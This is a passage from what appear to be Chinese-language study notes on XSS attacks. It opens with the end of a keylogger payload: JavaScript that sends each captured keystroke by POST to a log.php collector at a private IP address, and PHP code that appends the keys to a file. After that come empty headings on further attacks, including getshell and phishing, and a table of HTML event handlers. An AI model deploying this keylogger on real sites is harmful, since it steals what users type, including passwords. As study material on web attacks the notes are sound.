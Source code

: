 ```php
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.41.46/xss/keyboard/log.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}
//log.php文件，log.js传递出的数据，并存储在txt文件中
<?php
$key=$_POST['key'];
$logfile='result.txt';
$fp=fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
```

#### (3)获取前端源码

#### (4)获取内网IP

#### (5)组合其他漏洞getshell

#### (6)水坑/钓鱼攻击

#### (7)其他利用

# 第五天

## XSS

### 1. XSS与标签

#### (1). 运行位置

* 独立的``<script>``标签
* 某些标签内部

#### (2). 常用事件

| 事件名      | 含义                     |
| ----------- | ------------------------ |
| onclick     | 鼠标点击触发             |
| onmousemove | 当鼠标移动就触发         |
| onload      | 页面加载完成后触发       |
| onerror     | 页面加载错误时触发       |
| onblur      | 元素失去焦点时运行的脚本 |
